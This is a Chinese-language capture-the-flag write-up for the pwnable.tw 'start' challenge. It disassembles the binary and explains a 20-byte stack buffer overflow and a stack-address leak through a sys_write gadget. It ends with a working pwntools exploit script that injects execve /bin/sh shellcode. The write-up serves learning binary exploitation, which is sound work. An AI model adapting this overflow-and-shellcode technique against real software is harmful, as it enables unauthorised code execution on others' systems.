




## 0x00 环境准备

* pwndbg
* pwntools

关闭地址随机化保护（方便调试）

```bash
sysctl -w kernel.randomize_va_space=0
```

## 0x01 分析

file + checksec 二连

ida 分析

```ida
.text:08048060                 public _start
.text:08048060 _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    ':FTC'
.text:08048073                 push    ' eht'
.text:08048078                 push    ' tra'
.text:0804807D                 push    'ts s'
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 20          ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch
.text:08048095                 mov     al, 3           
.text:08048097                 int     80h             ; 
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

根据[系统调用号](http://syscalls.kernelgrok.com/)，得知当eax为3时，执行`sys_read`，在加上gdb调试，得到函数流程

```c
void_start(){
    charbuf[20]='Let'sstarttheCTF:';
    // 从buf往stdout写入20字节
    sys_write(1,buf,20);
    // 从stdin中读取60字节到buf 
    sys_read(0,buf,60);
}
```

通过`cyclic`或其他pattern，得到溢出点为20
因此，当程序执行完`sys_read`时候，往`stdin`写入20bytes，`read`函数往栈中写入了20字节，然后即覆盖main的返回地址
返回到`write`函数利用`write`泄漏栈中buf的的地址，然后继续执行到`_start`的返回地址

<!-- todo 说明为什么不变 -->

## 0x02 调试

从标准输入（fd = 0）读入0x3c个字节到0xfffd104中去



栈顶指针加0x14，栈空间减少了0x14个字节
ret至`sys_write`，该函数地址是不变的，一直为0x08048087



`sys_write`参数如下，由于之前的`mov ecx,esp`，泄露出ecx寄存器中的esp栈顶地址存放的值以及之后0x14个字节，即

```py
0xffffd120
0x00000001
0xffffd2f8
0x00000000
0xffffd300
```



从标准输入（fd = 0）读入0x3c个字节到0xfffd11c中去

由之前的例子可知返回地址距离$esp栈顶地址有20个字节，由于最小的shellcode也大于20字节，所以不能直接放入leak的栈空间地址里。

所以只能放在泄露的栈空间的后面，即leak+20 = 0xffffd120+20 的地址处

见下图，返回地址的存放的栈地址是0xffffd130，泄露出的是地址是0xffffd120，因此需要让返回地址变为0xffffd134，而0xffffd134存放shellcode就行了




## 0x03 EXP

```py
# coding:utf-8
from pwn import *

p = process("./start")
# p=remote('chall.pwnable.tw',10000)
context(log_level='debug', arch='i386', os='linux')

gadget = 0x08048087
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'


def gdb_attach(p):
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(
        proc.pidof(p)[0],
        gdbscript=
            '''
            b *0x8048097    
            '''
    )


def leak():
    p.recv()
    payload = 'A' * 20 + p32(gadget)
    p.send(payload)
    return u32(p.recv(4))


def pwn(shellcode_addr):
    #                    ret shellcode_addr  run_shellcode
    payload = 'A' * 20 + p32(shellcode_addr)+shellcode
    p.send(payload)
    p.interactive()


gdb_attach(p)


shellcode_addr = leak()+20
print "Shellcode_addr = " + hex(shellcode_addr)
pwn(shellcode_addr)

```
